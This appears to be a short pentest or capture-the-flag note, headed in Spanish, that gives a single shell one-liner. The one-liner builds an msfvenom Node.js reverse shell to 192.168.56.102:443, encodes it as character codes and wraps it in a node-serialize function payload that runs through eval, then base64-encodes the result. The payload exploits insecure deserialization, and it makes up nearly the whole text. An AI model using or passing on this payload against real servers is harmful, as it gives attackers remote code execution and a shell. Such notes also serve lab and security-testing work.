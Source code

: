 ## Reverse shell con msfvenom

    for p in $(msfvenom -p nodejs/shell_reverse_tcp lhost=192.168.56.102 lport=443 -f raw 2>/dev/null | grep -o .|sed 's/.*/x&x/');
    do if [ "$p" == "x" ]; then echo -n "32,"; 
    else printf "%d," "'${p:1:1}" ; 
    fi; 
    done | sed 's/.*/{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(&32))}()"}/' | base64 -w0
